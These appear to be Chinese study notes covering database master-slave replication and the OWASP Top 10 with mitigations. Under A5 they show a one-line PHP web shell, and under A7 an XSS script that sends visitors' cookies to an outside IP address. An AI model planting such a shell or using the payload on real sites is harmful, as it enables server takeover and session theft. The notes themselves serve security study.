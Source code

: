 SQL Server服务器主从备份

同理于Oracle MySQL 提高数据安全性，高可用，将主库日志upload到备用实例

优点：一个主库多个从库	在数据还原期间可以提高从库只读访问	自定义数据延迟应用，主库数据出问题有时间恢复

缺点：数据库占用更多空间 也许

日志传输过程：主库备份->日志文件复制到辅助服务器实例->还原日志备份

可以传送日志到多个辅助服务器

读写分离 分布式

原理：1.从库的IO线程向主库的主进程发送请求，主库验证从库，交给主库IO线程负责数据传输;

2.主库IO线程对比从库发送过来的master.info里的信息，将binlog文件信息，偏移量和binlog文件名等发送给从库

3.从库接收到信息后，将binlog信息保存到relay-bin中，同时更新master.info的偏移量和binlog文件名

4.从库的SQL线程不断的读取relay-bin的信息，同时将读到的偏移量和文件名写道relay-log.info文件，binlog信息写进自己的数据库，一次同步操作完成。

5.完成上次同步后，从库IO线程不断的向主库IO线程要binlog信息

6.从库如果也要做主库，也要打开log_bin 和log-slave-update参数



------

OWASP Top10

A1:注入 包括SQL注入、Not only SQL注入、LDAP注入、OS注入

将不受信任的数据作为命令或查询的一部分发送到解析器，攻击者可以使解析器在没有授权的情况下执行非预期命令或访问数据

防范：安全API、白名单、转义字符

A2:失效的身份认证

通过错误使程序的身份认证和会话管理功能，attacker能够破译密码、密钥、会话令牌，或other缺陷来冒充身份，暂时或永久

eg：获取cookie可以冒充客户端和服务器通信

防范：内置会话管理、认证问候、单一的入口点、在一开始登陆SSL保护的网页

------

A3:敏感数据泄露

许多web或者API都不能很好的保护敏感数据eg：财务data、医疗data、PII数据

attacker针对数据进行诈骗身份欺诈等

需要对数据进行加密：传输中的数据、存储的数据和web交互的数据

明文传输->抓包...中间人攻击

------

A4:XML外部实体

较早的配置错误的XML处理器评估了XML文件中的外部实体引用

攻击者利用外部实体窃取URL文件处理器的外部和共享文件

libxml2.9.0以后，默认不解析外部实体

------

A5:失效的访问控制

未对通过验证的用户采用恰当的访问控制，attacker可以利用这些缺陷访问未授权的功能或者数据

eg：访问其他用户账户、查看敏感文件、修改数据、更改权限

```php
[root@host myzoo]# cat ailx10.php 
<?php # 临时在网站根目录 添加了ailx10.php文件
system($_GET["hackbiji"]);
?>
```

------

A6:安全配置错误

不安全的默认配置、不完整的临时配置、开源云存储、wrong HTTP标头

防范：自动化安装部署、及时了解并部署每个环节的软件更新和补丁、漏洞扫描和安全审计

------

A7:XSS

网页中包含不受信任的、未验证、转义的数据，或者使用可以创建HTML、JS的API更新现有网页时就会有XSS缺陷

获得Cookies

```html
<script>document.write(\"<img src=\'http://144.34.129.116:8102?cookie=\" + escape(document.cookie) + \"\'>\")</script><!--

```

防范：验证输入、编码输出

------

A8:不安全的反序列化

不安全的反序列化会导致代码远程执行，或者可以用来执行其他攻击

重放、注入、提权

------

A9:使用含有已知漏洞的组件(库、框架 and so on)

组件和程序有相同权限，漏洞被利用可能造成数据丢失、服务器接管

------

A10:不足的日志记录和监控

不足的日志记录和监控以及事件响应缺失或无效的集成会导致进一步对系统的攻击，篡改、提权或销毁证据

rootkit 就是黑客为了销毁日志和监控

------

